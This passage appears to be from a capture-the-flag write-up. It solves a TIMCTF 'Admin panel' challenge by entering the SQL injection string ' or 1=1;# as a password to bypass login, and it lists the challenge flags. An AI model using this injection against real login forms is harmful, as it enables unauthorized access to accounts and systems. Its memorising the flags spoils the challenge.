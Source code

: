 **FLAG : `TIMCTF{Welcome_M4N_of_SW4G}`**

<br />

## Admin panel (200pts) ![](https://user-images.githubusercontent.com/32904385/65112572-156dcb80-da1b-11e9-8133-e348ea7ecc6b.png)

> Your job is to hack this admin panel and login.
>
> http://89.38.208.143:20003/

- Input ```asdf@asdf.com``` in Email
- Input ```' or 1=1;#``` in Password

**FLAG : `TIMCTF{SqL_1nj3ct1on_1s_b4ck_1n_town}`**